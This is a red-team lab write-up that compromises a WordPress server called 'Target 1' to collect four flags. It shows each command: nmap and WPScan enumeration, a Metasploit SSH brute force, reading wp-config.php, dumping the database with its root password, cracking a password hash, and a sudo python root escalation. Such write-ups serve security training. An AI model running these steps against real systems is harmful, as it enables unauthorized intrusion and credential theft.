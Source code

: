 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
  - Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

## Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

------
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - Brute force attacking a weak password
      
#### Method
  - First we enumerated the user accounts by exploiting the vulnerable WordPress site using WPScan
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
![wpscan](images/wpscan_user.png)

  - With the user accounts we can use Metasploit's SSH Login Check Scanner module and the rockyou wordlist to brute force the password
```
$ msfconsole
```
```
> search ssh_login
```
![ssh_login](images/search_ssh_login.png)

```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
![msfconsole](images/msfconsole_ssh_login.png)
```
> exit -y
```
  - After obtaining the password: `michael` we are able to SSH into `Target 1`
```
$ ssh michael@192.168.1.110
```
![SSH Michael](images/ssh_michael.png)
  - From here we used the follow command to locate `flag1`
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
![flag1](images/flag1z.png)

-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
  - Using the existing access we were able to locate `flag2` using the following command
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
![flag2](images/flag2.png)

-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
  - Using the existing access we were able to locate `flag3` by harvesting the WordPress database login credentials
```
$ cat /var/www/html/wordpress/wp-config.php
```
![wp_config](images/wp_config.png)

  - With these credentials we dumped the entire database using the following command
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
  - After dumping we ran a search for `flag3`
```
$ grep “flag3” dump
```
![flag4](images/flag3z.png)

> Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
  - Logging into the WordPress database we were able to obtain the unsalted hash for the user account `steven`
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
> select * from wp_users;
```
![wp_users](images/wp_users.png)
```
> exit
```
```
$ exit
```
  - With the hash we created a `hash.txt` for use with John the Ripper
```
$ echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
$ john hash.txt
```
![john hash](images/john_hash.png)
  - After cracking the password we were able to login as `steven`
```
$ ssh steven@192.168.1.110
```
  - When checking `steven`'s privileges we noticed he has sudo access to `/usr/bin/python`
```
$ sudo -l
```
![steven_sudo](images/sudo.png)
  - With this we were able to escalate to root
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
  - Finally running the following command for `flag4`
```
$ find / -iname "flag4*" 2> /dev/null
```
![find_flag4](images/find_flag4.png)
```
$ cat /root/flag4.txt
```
![flag4](images/flag4.png)

-----


